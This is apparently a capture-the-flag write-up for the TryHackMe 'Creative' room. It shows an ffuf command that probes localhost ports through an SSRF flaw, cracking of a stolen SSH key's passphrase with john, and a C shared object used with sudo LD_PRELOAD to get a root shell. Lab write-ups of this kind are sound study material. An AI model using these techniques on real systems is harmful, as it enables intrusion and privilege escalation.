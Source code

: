 ```yaml
---
title: THM Creative
author: hanhctf
date: 2024-05-21 12:00:00 +0700
categories: [Write-up, THM]
tags: [SSRF]
toc: true
mermaid: true
---
```


# [**Creative**](https://tryhackme.com/r/room/creative)

# Summary
>
> - 'beta' subdomain
> - SSRF --> LFI 
> - LPE with LD_Preload

## NMAP

```text
Nmap scan report for creative.thm (10.10.204.200)
Host is up (0.40s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration

The Nmap scan reveals only two ports: port 22, on which we have SSH, and port 80, a web server with nginx 1.18.0.  
Nothing interesting on the web server.  
Time to enumerate some subdomains `creative.thm`.  
We find the subdomain `beta.creative.thm`.

![](/commons/THM/Creative/0_subdomain.png)  

Open `beta.creative.thm'  

![](/commons/THM/Creative/1_SSRF.png)

This site will test a URL. **Command inject**, **SSRF**, **LFI** is first things in my mind.  

After trying some simple payloads. I found **SSRF**. Check port on `127.0.0.1`

```shell
ffuf -w /opt/SecLists/Fuzzing/5-digits-00000-99999.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3
```
![](/commons/THM/Creative/2_1337.png)

After enumeration, we got the id_rsa file.
![](/commons/THM/Creative/3_id_rsa.png)

Login to SSH with this key. It requests a passphrase. :))  
We will try to use ssh2john to crack the passphrase of ssh. (Almost in CTF, rockyou.txt is your friend)  

```shell
ssh2john id_rsa > id_rsa.hash
/opt/john/run/john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

***GOT USER.TXT FLAG***


## Privilege Escalation

Login as `saad`, we found creds in .bash_history.

![](/commons/THM/Creative/5_creds.png)

Check `sudo -l`
![](/commons/THM/Creative/6_ping.png)

`/usr/bin/ping` can run as `root` but no command is useful.  
`env_keep+=LD_PRELOAD` we found an article written about [LPE using LD_Preload](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/) 

Create a `shell.c`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

Compile it to generate a shared object with .so extension likewise .dll file in the Windows operating system and hence type the following:

```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so sudo /usr/bin/ping
```

![](/commons/THM/Creative/7_root.png)

***GOT ROOT.TXT FLAG***
